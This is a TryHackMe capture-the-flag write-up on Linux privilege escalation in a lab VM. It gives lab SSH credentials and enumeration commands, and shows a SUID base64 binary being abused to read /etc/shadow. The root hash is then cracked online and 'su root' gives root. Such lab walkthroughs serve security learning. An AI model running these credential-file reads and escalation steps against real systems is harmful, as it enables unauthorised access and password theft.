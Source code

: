 **TryHackMe Write-Up**

* **Target IP:** `10.10.55.87`
* **VPN:** Connected to TryHackMe using OpenVPN.
* **Initial Access:** Connected to the target VM via SSH using the following credentials:

  * **Username:** `leonard`
  * **Password:** `Penny123`

---

### 🧭 Enumeration

1. **Checked user privileges:**

   ```bash
   id
   ```

2. **Identified the hostname:**

   ```bash
   hostname
   ```

3. **Checked the kernel version:**

   ```bash
   uname -r
   ```

   * Kernel version: `3.10.0-1160.el7.x86_64`

4. **Checked for sudo privileges:**

   ```bash
   sudo -l
   ```

5. **Searched for interesting files (e.g., passwords, SSH keys):**

   ```bash
   find / -type f \( -name "*pass*" -o -name "*ssh*" \) 2>/dev/null
   ```

   * Nothing useful found.

6. **Searched online for kernel-specific vulnerabilities:**

   * No exploitable vulnerabilities found for this kernel version.

7. **Checked for files with SUID permissions:**

   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

   * Found several SUID binaries.
   * Notably, `base64` had the SUID bit set.

---

### 🛠 Exploitation via SUID `base64`

Using GTFOBins[](https://gtfobins.github.io/#), I discovered that the `base64` command can be abused to read files as another user when SUID is set.

* Read `/etc/shadow` using:

  ```bash
  base64 /etc/shadow | base64 --decode
  ```

* Extracted the root user's password hash from the file.

* Cracked the hash using [hashes.com](https://hashes.com), which revealed the root password.



---

### 🔐 Privilege Escalation

* Switched to the root user:

  ```bash
  su root
  ```

  * Entered the cracked password and successfully gained root access.

---

### 🏁 Flags

* Retrieved both `flag1` and `flag2` from the `missy` and `root` directories, respectively.

---

**Status:** ✅ Root access achieved and both flags captured.

Thanks!

